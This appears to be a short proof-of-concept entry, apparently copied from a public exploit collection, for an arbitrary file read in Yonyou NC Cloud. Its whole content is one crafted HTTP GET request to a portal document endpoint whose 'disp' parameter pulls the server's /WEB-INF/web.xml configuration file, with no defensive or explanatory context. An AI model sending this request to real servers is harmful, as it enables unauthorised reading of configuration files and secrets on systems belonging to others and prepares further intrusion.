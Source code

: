 # yonyou_ncc_fileread

from: https://github.com/Vme18000yuan/FreePOC/blob/master/poc/pocsuite/NC_Cloud_word_fileRead.py

```
GET /portal/docctr/open/word.docx?disp=/WEB-INF/web.xml HTTP/1.1
```
